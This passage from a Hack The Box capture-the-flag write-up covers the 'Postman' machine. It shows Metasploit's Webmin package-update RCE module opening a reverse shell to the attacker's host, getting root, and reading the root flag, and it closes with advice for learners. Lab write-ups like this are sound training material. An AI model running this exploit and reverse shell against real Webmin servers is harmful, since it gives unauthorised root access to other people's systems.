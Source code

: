 Another error here: Webmin does NOT run on TCP80 and its default port is TCP10000. We need to keep this in mind.
```
msf5 exploit(linux/http/webmin_packageup_rce) > set rport 10000
rport => 10000
msf5 exploit(linux/http/webmin_packageup_rce) > exploit -j
[*] Exploit running as background job 19.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.28:26446 
[+] Session cookie: ee591b8b1c14c1aea3d1819d7c5e2064
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.28:26446 -> 10.10.10.160:45702) at 2020-01-07 00:08:43 -0500
```
And we now have a Shell Session created on postman.htb. Let's interact with it and see where are located, the user this shell is running as (should be root per the vulnerability) and let's try and get that Root Flag.


##### Root Shell:
```
msf5 > sessions 1
[*] Starting interaction with 1...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/usr/share/webmin/package-updates
$ cat /root/root.txt
a2577********************686ddce
```

AND we Rooted Postman and got the Root Flag!!

PS: This whole write-up looks straight forward but something to keep in mind is we are not perfect AND along the way while learning, we can make mistakes or end up going down rabbitholes. Be patient and try not to get frustrated and if you do, step out for a little bit. Go to the forum, go to Discord, contact other members that had rooted or completed the boxes. There is a lot of people wiliing to help.

Also, on the final phase, we used Metasploit, but keep in mind you cannot always rely on Metasploit. Force yourself in using other tools.
